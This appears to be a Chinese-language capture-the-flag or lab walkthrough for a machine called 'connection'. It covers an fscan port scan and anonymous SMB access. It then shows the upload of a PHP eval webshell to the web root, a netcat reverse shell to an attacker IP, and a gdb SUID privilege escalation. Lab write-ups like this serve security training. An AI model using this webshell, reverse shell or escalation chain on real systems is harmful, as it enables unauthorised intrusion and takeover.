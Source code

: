 # connection

`fscan`扫描发现开放`smb`的`139`和`445`以及`22`、`80`

```bash
$ fscan -h 192.168.1.95

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
192.168.1.95:22 open
192.168.1.95:80 open
192.168.1.95:139 open
192.168.1.95:445 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://192.168.1.95       code:200 len:10701  title:Apache2 Debian Default Page: It works
[*] OsInfo 192.168.1.95	(Windows 6.1)
[*] NetBios 192.168.1.95    WORKGROUP\connection                Windows 6.1
```

但是访问网页发现仅仅是个静态网站

![](./img/connection-1.png)

但是发现`smb`可以匿名连接

```bash
smbclient -L 192.168.1.95
```

![](./img/connection-2.png)

进入`share`查看

```
smbclient //192.168.1.95/share
```

![](./img/connection-3.png)

发现就是首页的文件，说明可以直接上传`webshell`到站点，上传`1.php`内容为

```
<?php @eval($_POST[1]); ?>
```

![](./img/connection-4.png)

![](./img/connection-5.png)

还是一样的找`suid`提权

```bash
find / -perm -4000 -type f 2>/dev/null
```

![](./img/connection-6.png)

发现`gdb`可以提权

```bash
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

先反弹shell出来，各种bash弹不了，上传nc

```bash
./nc 192.168.1.94 9999 -e /usr/bin/bash
```

使用命令提权

```
/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

![](./img/connection-7.png)